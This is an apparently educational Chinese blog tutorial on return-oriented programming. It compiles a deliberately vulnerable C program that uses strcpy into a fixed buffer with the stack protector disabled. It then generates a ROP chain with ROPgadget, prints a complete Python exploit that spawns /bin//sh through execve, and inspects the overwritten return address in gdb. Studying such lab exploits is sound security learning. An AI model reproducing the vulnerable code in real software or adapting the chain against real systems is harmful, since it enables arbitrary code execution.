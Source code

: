 title: 使用ROPgadget构建gadgets链，实现ROP攻击
date: 2015-06-12 15:34:53
tags: 
- 缓冲区溢出 
- ROP
categories: ROP
---
上篇博客简单介绍了ROPgadget，现在我们就来小试牛刀
<!-- more -->
# I、C程序
```
#include <string.h>
#include <stdio.h>

void function(char *a){
        char buff[40];
        strcpy(buff,a);
}
 
int main(int argc, char** argv){
    if(argc>=2)
        function(argv[1]);
}
```
编译C程序
```
gcc hello.c -o hello -static -g -fno-stack-protector
```
# II、使用ROPgadget构建gadget链
ROPgadget的安装[上篇博客](http://huirong.github.io/2015/06/12/ROPgadget/)已经介绍了,这里不赘述。
```
ropgadget --binary hello --ropchain
```
创建输入文件exploit.py
```
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = ''
p += 'a'*52

p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x0808d211) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x0808d211) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080514e0) # xor eax, eax ; ret
p += pack('<I', 0x0808e28d) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481ec) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080997d3) # pop ecx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080570ca) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080514e0) # xor eax, eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x08099b66) # inc eax ; ret
p += pack('<I', 0x080493b9) # int 0x80
print p
```
<font color="red">注意：要在gadget之前添加 p += 'a'*52</font>
原因：使函数的返回地址指向第一个gadget
# III、使用gdb分析内存
```
gdbtui hello
```
## ① 添加断点，设置参数
根据自己喜欢在程序某个地方设置断点，我一般设置在主函数处
运行时参数为 ./exploit.py 的运行结果
![](https://ww3.sinaimg.cn/large/005CA6ZCjw1et1d063ftej30px0fq0yj.jpg)
## ② 查看寄存器
当运行完strcpy()函数后，查看寄存器情况，主要留意esp  ebp的值
![](https://ww3.sinaimg.cn/large/005CA6ZCjw1et1d0cngncj30n80fp43t.jpg)
## ③ 查看内存情况
ebp为0xbffff288，则返回地址在0xbffff28c处，可以发现此时返回地址是第一个gadget的起始地址处
<font color="red">p += 'a'*52 是为了覆盖缓冲区，直到返回地址处</font>
![](https://ww1.sinaimg.cn/large/005CA6ZCjw1et1d0lh38xj30nr05rads.jpg)
# IV、运行结果
```
./hello "$(./exploit.py)"
```
![](https://ww2.sinaimg.cn/large/005CA6ZCjw1et1d0ryguaj30fe016t8q.jpg)
# V、参考文献
[use ROPgadget to chain gadgets](https://hwchen18546.wordpress.com/2014/07/15/rop-use-ropgadget-to-chain-gadgets/)
